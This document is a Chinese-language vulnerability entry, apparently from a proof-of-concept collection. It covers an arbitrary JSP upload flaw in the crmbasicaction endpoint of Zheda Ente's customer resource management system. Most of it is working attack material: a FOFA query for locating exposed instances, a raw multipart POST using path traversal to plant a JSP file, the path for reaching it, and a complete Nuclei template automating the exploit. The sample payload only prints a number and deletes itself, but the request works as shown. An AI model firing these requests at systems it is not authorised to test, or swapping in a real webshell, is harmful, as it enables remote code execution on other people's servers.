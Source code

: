 ## 浙大恩特客户资源管理系统crmbasicaction任意文件上传

浙大恩特客户资源管理系统中的crmbasicaction接口存在安全漏洞，允许攻击者向系统上传任意恶意JSP文件，从而可能导致潜在的远程执行代码攻击。该漏洞可能会对系统的完整性和安全性产生严重影响。

## fofa
```
app="浙大恩特客户资源管理系统"
```

## poc
```
POST /entsoft/CrmBasicAction.entcrm?method=zipFileUpload&c_transModel=old HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.2657.7 Safari/537.36
Content-Length: 267
Accept-Encoding: gzip
Connection: close
Content-Type: multipart/form-data; boundary=0rwysvgvy7rxv790mpju

--0rwysvgvy7rxv790mpju
Content-Disposition: form-data; name="file"; filename="../../mqh8qxe3cy.jsp"
Content-Type: application/zip

<% out.println(111*111);new java.io.File(application.getRealPath(request.getServletPath())).delete(); %>
--0rwysvgvy7rxv790mpju--
```

![3a3a1bb6be6134a688029b7e4d757cd4](../../images/75ccec48-a0ad-4ca6-abd7-fdd2635ba5ef.png)

![9f14d667e2ff13898bf0e9f6e33fe1d5](../../images/b4355528-ae24-4dfa-962b-eaa779bc6ba7.png)

访问上传的文件
/enterdoc/dao{{filepath}}{{filename}}.jsp


## nuclei 
```

id: zhedaente-entsoft-CrmBasicAction-upload

info:
  name: 浙大恩特客户资源管理系统-crmbasicaction-任意文件上传
  author: rain
  severity: critical
  metadata:
    fofa-query: title="欢迎使用浙大恩特客户资源管理系统" || body="script/Ent.base.js" || app="浙大恩特客户资源管理系统"
variables:
  filename: "{{to_lower(rand_base(10))}}"
  boundary: "{{to_lower(rand_base(20))}}"

http:
  - raw:
      - |
        POST /entsoft/CrmBasicAction.entcrm?method=zipFileUpload&c_transModel=old HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.2657.7 Safari/537.36
        Connection: close
        Content-Type: multipart/form-data; boundary={{boundary}}
        Accept-Encoding: gzip
        
        --{{boundary}}
        Content-Disposition: form-data; name="file"; filename="../../{{filename}}.jsp"
        Content-Type: application/zip
        
        <% out.println(111*111);new java.io.File(application.getRealPath(request.getServletPath())).delete(); %>
        --{{boundary}}--

      - |+
        GET /enterdoc/dao{{filepath}}{{filename}}.jsp HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.2657.7 Safari/537.36
        Content-Length: 0
        Accept-Encoding: gzip, deflate
        Connection: close

    extractors:
      - type: regex
        name: filepath
        part: body
        internal: true
        group: 1
        regex:
          - '(/\d+/)'

        
    matchers:
      - type: dsl
        dsl:
          - "status_code_2 == 200 && contains(body_2,'12321')"
```
